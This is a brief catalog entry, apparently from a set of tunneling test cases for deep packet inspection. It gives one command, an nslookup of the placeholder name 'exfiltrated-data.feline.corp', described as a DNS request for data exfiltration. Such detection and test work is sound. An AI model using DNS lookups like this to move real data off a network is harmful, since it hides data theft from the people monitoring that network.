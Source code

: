# 20 Tunneling DPI — Entry 19

## Categorie

DNSmasq

## Commando

nslookup exfiltrated-data.feline.corp

## Omschrijving

```
Using nslookup to make a DNS request for exfiltrated-data.feline.corp
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

